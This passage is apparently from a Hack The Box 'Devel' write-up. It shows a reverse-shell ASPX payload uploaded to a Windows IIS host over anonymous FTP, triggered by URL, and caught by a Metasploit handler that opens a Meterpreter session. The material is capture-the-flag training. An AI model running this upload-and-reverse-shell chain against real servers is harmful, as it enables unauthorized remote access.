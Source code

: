 ```bash
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
```

Now that everything is set up, lets put the payload into the ftp service and let's execute it.

```bash
root@kali:~/HTB/Devel# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put reverse_shell.aspx
local: reverse_shell.aspx remote: reverse_shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2906 bytes sent in 0.00 secs (36.9517 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
02-21-21  02:20PM                 2906 reverse_shell.aspx
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

Once the payload is uploaded, we execute it with this URL:

[http://10.10.10.5/reverse_shell.aspx](http://10.10.10.5/reverse_shell.aspx)

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.5:4444 -> 10.10.10.5:49164) at 2021-02-21 14:03:38 +0100

meterpreter > getuid
Server username: IIS APPPOOL\Web

```

